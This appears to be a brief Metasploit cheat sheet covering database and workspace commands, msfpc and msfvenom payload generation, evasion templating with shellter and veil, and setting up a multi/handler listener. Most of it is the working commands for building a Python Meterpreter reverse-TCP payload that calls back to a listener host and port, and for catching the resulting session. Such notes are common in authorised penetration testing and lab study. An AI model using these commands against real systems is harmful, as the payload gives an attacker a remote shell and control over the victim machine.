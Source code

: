 cd /usr/share/metasploit-framework

Maintain Database:

	- msfdb
	- msfdb init
	- msfdb delete
	- msfdb reinit

Create workspace:

	- workspace -h
	- workspace -a project (add & select)
	- workspace -d project (delete & select default)
	- workspace project (change)

	- creds (check credentials)

Create Payloads:

	- msfpc Python 192.168.0.137 8080

msfpc use msfvenom to create payload and give you a file to execute msfconsole easily.

	- msfvenom -l
	- msfvenom -p python/meterpreter/reverse_tcp  lhost=192.168.0.116 lport=8888 > reverce_tcp.py

	- msfvenom + template

	- shellter + template

	- veil

Use Exploits:

	- use exploit/multi/handler
	- options

	- set payload python/meterpreter/reverse_tcp
	- set lhost 192.168.0.116
	- set lport 8888

	- run

Install on Mac OS:

	- here is the download for Mac

cd /opt/metasploit-framework/bin/